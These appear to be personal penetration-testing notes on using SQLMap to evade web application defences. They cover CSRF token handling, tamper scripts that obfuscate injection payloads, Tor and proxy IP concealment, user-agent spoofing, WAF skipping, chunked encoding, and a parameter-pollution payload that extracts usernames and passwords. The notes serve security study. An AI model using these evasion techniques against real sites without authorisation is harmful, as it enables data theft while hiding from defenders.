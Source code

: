 ### Bypassing Web Application Protections with SQLMap

In real-world scenarios, automated tools like SQLMap often face protection mechanisms. SQLMap includes various options to bypass these defenses effectively.
### Anti-CSRF Token Bypass

Use the `--csrf-token` option to let SQLMap automatically detect and update the anti-CSRF token value in requests:

```bash
sqlmap -u "http://example.com" --data="id=1&csrf-token=XYZ" --csrf-token="csrf-token"
```

If a parameter name includes terms like `csrf`, `token`, or `xsrf`, SQLMap prompts you to update it dynamically.
### Unique Value Bypass

Some apps require unique values per request. Use `--randomize=<parameter>` to inject a randomized value in each request:

```bash
sqlmap -u "http://example.com/?id=1&rp=12345" --randomize=rp
```
### Calculated Parameter Bypass

When parameter values are derived from others (e.g., MD5 hashes), use `--eval`:

```bash
sqlmap -u "http://example.com/?id=1&h=<hash>" \
  --eval="import hashlib; h=hashlib.md5(id).hexdigest()"
```
### IP Address Concealing

To avoid detection:

- Use a proxy: `--proxy="socks4://127.0.0.1:9050"`
- Use a list: `--proxy-file=proxies.txt`
- Use Tor: `--tor`
- Check Tor: `--check-tor`
### WAF Detection and Bypass

SQLMap tries to detect WAFs using fake parameter probes.

- Use `--skip-waf` to skip this step.
### User-Agent Blacklisting

To avoid being blocked due to the default SQLMap user-agent:

```bash
sqlmap -u "http://example.com/?id=1" --random-agent
```
### Tamper Scripts

Modify payloads to bypass protections. Chain multiple scripts:

```bash
sqlmap -u "http://example.com/?id=1" --tamper=between,randomcase
```

**Common Tamper Scripts:**

|Script|Description|
|---|---|
|`0eunion`|Replaces UNION with e0UNION|
|`base64encode`|Encodes payload with base64|
|`between`|Replaces `>` with `NOT BETWEEN 0 AND #`|
|`commalesslimit`|Uses `LIMIT N OFFSET M`|
|`equaltolike`|Replaces `=` with `LIKE`|
|`halfversionedmorekeywords`|Adds versioned comment before each keyword|
|`modsecurityversioned`|Wraps query with MySQL versioned comment|
|`percentage`|Adds `%` before every character|
|`plus2concat`|Replaces `+` with `CONCAT()`|
|`randomcase`|Random casing of SQL keywords|
|`space2comment`|Replaces spaces with `/**/`|
|`space2dash`|Replaces spaces with `--random\n`|
|`space2hash`|Replaces spaces with `#random\n`|
|`space2plus`|Replaces spaces with `+`|
|`symboliclogical`|Uses `&&` and `|

List all tamper scripts:

```bash
sqlmap --list-tampers
```
### Miscellaneous Bypasses

**Chunked Transfer Encoding:**

- Use `--chunked` to break POST body into chunks, avoiding filters.    

**HTTP Parameter Pollution (HPP):**

- Payload split across multiple same-name parameters:

```text
?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users
```

This works if the backend supports concatenation (e.g., ASP).
# Tags
> #Exploitation #Service-Exploitation #MySQL #SQLmap #SQL-injection